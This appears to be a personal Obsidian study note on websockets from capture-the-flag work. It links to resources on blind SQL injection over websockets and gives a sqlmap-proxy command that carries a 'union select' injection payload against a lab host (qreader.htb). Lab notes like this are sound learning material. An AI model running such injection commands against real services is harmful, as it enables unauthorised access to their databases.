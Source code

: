 ```yaml
---
creation date: March 22nd 2023
last modified date: March 22nd 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Websockets]]  
___

## Description:  

[Blind SQL injection over websockets](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

[Good websocket proxy for sqlmap](https://github.com/BKreisel/sqlmap-websocket-proxy)

Used the following to escape quotes in Json requests:
`/home/kali/.local/bin/sqlmap-websocket-proxy -u "ws://ws.qreader.htb:5789/version" -p '{"version": "\" union select 1,2,3,%param%--"}' --json -o 8085`


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: March 22nd 2023 (09:10 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
